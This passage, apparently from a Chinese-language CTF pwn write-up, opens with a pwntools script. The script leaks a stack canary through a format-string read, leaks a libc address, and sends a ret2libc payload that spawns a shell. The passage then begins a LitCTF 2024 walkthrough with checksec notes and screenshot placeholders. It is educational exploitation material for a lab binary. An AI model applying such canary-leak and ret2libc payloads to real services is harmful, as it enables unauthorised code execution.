 ```
pay=b"|%7$p"
p.recvuntil(b"gift!\n")
p.sendline(pay)
p.recvuntil(b'|')
canary=int(p.recv(10),16)
print(hex(canary))
pay=flat(b'a'*(0x20),p32(canary),b'a' * 0xc,p32(put_plt),p32(main),p32(main_got))
p.recvuntil(b"data!\n")
p.sendline(pay)

p.recvline()

main_addr=u32(p.recv(4))
Libc = LibcSearcher("__libc_start_main",main_addr)
log.success('leak_atoi_real_addr => {}'.format(hex(main_addr)))

libcbase = main_addr - Libc.dump('__libc_start_main')
system_addr = libcbase + Libc.dump('system')
str_bin_sh = libcbase + Libc.dump('str_bin_sh')

p.recvuntil(b"read? ")
pay=b'-9'
p.sendline(pay)
pay=b"|%7$p"
p.recvuntil(b"gift!\n")
p.sendline(pay)
p.recvuntil(b"data!\n")
pay=flat(b'a'*(0x20),p32(canary),b'a' * 0xc,p32(system_addr),p32(0),p32(str_bin_sh))
p.sendline(pay)
p.interactive()
```

### 2024 LitCTF

第一步：checksec检查一下

开了Full RELRO和NX 意味着如果存在格式化字符串我们无法修改got表地址进行跳转

![[Pasted image 20240923212559.png]]

查看主函数，第一个setup就是常规的缓冲区设置

![[Pasted image 20240923212632.png]]

这里有个函数，看到这我还以为是堆的菜单题，往下看就知道不是了

![[Pasted image 20240923212639.png]]

进app_fun()函数看看

![[Pasted image 20240923212649.png]]
